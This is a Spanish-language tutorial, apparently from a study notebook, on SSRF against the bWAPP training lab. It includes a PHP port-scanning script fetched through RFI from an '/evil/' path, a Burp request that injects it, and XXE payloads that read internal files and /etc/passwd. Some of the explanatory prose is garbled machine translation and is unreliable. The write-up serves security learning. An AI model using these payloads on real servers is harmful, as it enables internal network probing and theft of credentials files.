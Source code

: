 # SSRF (Server Side Request Forgery)

###### tags: `VULNWEB TERMINADO`


## ¿QUE ES SSRF?
Esta vulnerabilidad ocurre cuando una aplicación web permite hacer consultas HTTP del lado del servidor hacia un dominio arbitrario elegido por el atacante.

Esto le permite a un atacante hacer conexión con servicios de la infraestructura interna donde se aloja la web y exfiltrar información sensible.

El punto popular, SSRF (Server Side Request Forgery), es decir, la solicitud del servidor para falsificación, es un atacante que puede vulnerabilidad a través de vulnerabilidades del servidor, enviar una solicitud cuidadosamente construida al servidor como servidor (el objetivo al que ataca generalmente es un interno red a la que no se puede acceder directamente desde la red externa), y un atacante puede realizar varias operaciones no autorizadas utilizando el acceso al servidor de destino.

![](https://i.imgur.com/TTX5qiF.png)


## TIPOS

* SSRF básica

Es decir, un atacante puede recibir una respuesta a la SSRF construida, un atacante puede usar esta vulnerabilidad para realizar operaciones de lectura y escritura.

* SSRF ciego
 
 Debido a que la vulnerabilidad BLIND SSRF no devuelve la respuesta a un atacante, no es posible leer las operaciones para el atacante, pero la operación de lectura se puede realizar fácilmente y el atacante no necesita ver la respuesta.


## CASO PRÁCTICO BWAPP


![](https://i.imgur.com/SOaEQgE.png)

Nos dice lo siguiente:

  1. Utilice RFI para escanear puertos.

  2. Utilice XXE para acceder a los recursos de la red interna.

  3. Usar XXE para bloquear mi Samsung SmartTV (CVE-2013-4890)

**UTILIZAMOS RFI PARA ESCANEAR PUERTOS**

![](https://i.imgur.com/lzfvm8n.png)


```php
<?php>
echo "<script>alert(\"U 4r3 0wn3d by MME!!!\");</script>";// función de salida de eco


if(isset($_REQUEST["ip"]))// Determinar si se envía ip
{
    
    //list of port numbers to scan
    $ports = array(21, 22, 23, 25, 53, 80, 110, 1433, 3306);// Enumere algunos puertos que deben escanearse
    
    $results = array();
    
    foreach($ports as $port)// Atraviesa la matriz
    {


        if($pf = @fsockopen($_REQUEST["ip"], $port, $err, $err_string, 1))// función fsockopen para establecer una conexión, escaneo de puertos
        {


            $results[$port] = true;
            fclose($pf);
            
        }
        
        else
        {


            $results[$port] = false;        


        }


    }
    foreach($results as $port=>$val)
    {


        $prot = getservbyport($port,"tcp");// Devuelve la información de servicio relacionada con el número de puerto y el nombre de protocolo dados
        echo "Port $port ($prot): ";


        if($val)
        {


            echo "<span style=\"color:green\">OK</span><br/>";


        }


        else
        {


            echo "<span style=\"color:red\">Inaccessible</span><br/>";

        }

    }

}
?>
```


![](https://i.imgur.com/VhIFo8X.png)

Al pulsar en el boton "go" vemos que la URL es  http://192.168.0.9/bWAPP/rlfi.php?language=lang_en.php&action=go
es una vulnerabilidad la cual usandola junto a SSRF, podemos construir un script de escaneo de puertos para hacer que el servidor inicie una solicitud.

Con burpsuite interceptando y a traves del metodo get request

```
GET /bwapp/rfli.php?language=http://192.168.0.9/evil/ssrf-1.txt&action=go&tip=192.168.0.9 HTTP/1.1
HOST: 192.168.0.9
```
![](https://i.imgur.com/aMclzSs.png)






**Utilice XXE para acceder a recursos en la red interna**

El segundo enlace contiene este archivo

```xml
#Accesses a file on the internal network (1)

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY bWAPP SYSTEM "http://localhost/bWAPP/robots.txt">
]>
<reset><login>&bWAPP;</login><secret>blah</secret></reset>


#Accesses a file on the internal network (2)
#Web pages returns some characters that break the XML schema > use the PHP base64 encoder filter to return an XML schema friendly version of the page!

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY bWAPP SYSTEM "php://filter/read=convert.base64-encode/resource=http://localhost/bWAPP/passwords/heroes.xml">
]>
<reset><login>&bWAPP;</login><secret>blah</secret></reset>

```

Revisamos el robots.txt

![](https://i.imgur.com/TL3NSbh.png)


Pero vemos que dentro de /passwords hay /bWAPP/passwords/heroes.xml.


![](https://i.imgur.com/062D6J3.png)

de esta misma forma podemos sacar /etc/passwd

![](https://i.imgur.com/3bnApPl.png)


![](https://i.imgur.com/TrUj0YX.png)





